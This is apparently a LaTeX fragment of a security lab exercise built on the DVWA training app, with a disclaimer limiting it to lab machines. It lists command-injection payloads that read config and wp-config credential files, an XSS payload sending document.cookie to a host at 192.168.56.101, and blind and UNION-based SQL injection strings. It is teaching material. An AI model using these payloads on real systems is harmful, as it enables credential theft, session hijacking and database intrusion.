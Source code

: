 \colorbox{red}{\parbox{\textwidth}{DISCLAIMER: Do not use followed methods on any computer except lab computer and only for learning propose!}}

\subsubsection{Command execution}
Read command execution material given in Command Execution menu and try and explaing following commands and results.

\begin{verbatim}
8.8.8.8; sed 's/</UUUU/' ../../config/config.inc.php

#Find out directory and file structure of \gls{DVWA}
8.8.8.8; ls -l 
8.8.8.8; ls -l ../
8.8.8.8; ls -l ../../
8.8.8.8; sed 's/<//'  ../../../../wordpress/wp-config.php
8.8.8.8; touch /var/tmp/new_file.txt
8.8.8.8; ls /var/tmp/
\end{verbatim}

Try following command and explain what can describe output of following command?
\begin{verbatim}
; grep session.cookie_httponly /etc/php5/apache2/php.ini
\end{verbatim}
What attack vectors are possible when cookie\_httponly is set or not?

\begin{verbatim}
session.cookie_httponly = 1
\end{verbatim}

What are better solution $0 or 1$?
\begin{verbatim}
session.cookie_httponly = 0
\end{verbatim}
XSS
\begin{verbatim}
<script>var i='<img src="http://192.168.56.101/'+document.cookie+'" />'; document.write(i);</script>
\end{verbatim}
veel XSSi
\begin{verbatim}
%3Cscript%3Evar+i%3D%27%3Cimg+src%3D%22http%3A%2F%2F192.168.56.101%2F%27%2Bdocument.cookie%2B%27%22+%2F%3E%27%3B+document.write%28i%29%3B%3C%2Fscript%3E
\end{verbatim}
SQLi
\begin{verbatim}
#blind
1' union select BENCHMARK(100000000,ENCODE('hello','goodbye')),1; # --
 
 
2' UNION SELECT TABLE_SCHEMA, TABLE_NAME FROM information_schema.TABLES;# --
 
 
3' union  select TABLE_NAME,COLUMN_NAME from information_schema.columns; # --

\end{verbatim}



